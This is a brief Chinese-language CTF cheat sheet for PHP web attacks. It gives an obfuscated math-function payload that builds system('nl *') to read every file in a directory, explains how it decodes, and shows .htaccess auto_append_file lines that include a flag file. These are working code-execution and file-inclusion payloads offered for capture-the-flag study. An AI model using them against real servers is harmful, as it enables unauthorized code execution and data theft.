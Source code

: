 使用....//绕过

## 数学函数现代码执行

```
($pi=base_convert)(1751504350,10,36)($pi(1438255411,14,34)(dechex(1852579882)))
```

```
base_convert(1751504350,10,36) -------->system

$pi(1438255411,14,34) ------>hex2bin

dechex(1852579882) ----->将十进制转为十六进制：6e6c202a（字符串形式是：nl *）

nl *可以读取当前目录下的所有文件
```



## htaccess文件包含

```
搜索文件
php_value auto_append_file master://search/path={}&name={}
包含文件
php_value auto_append_file /home/hiahiahia_flag.php
```



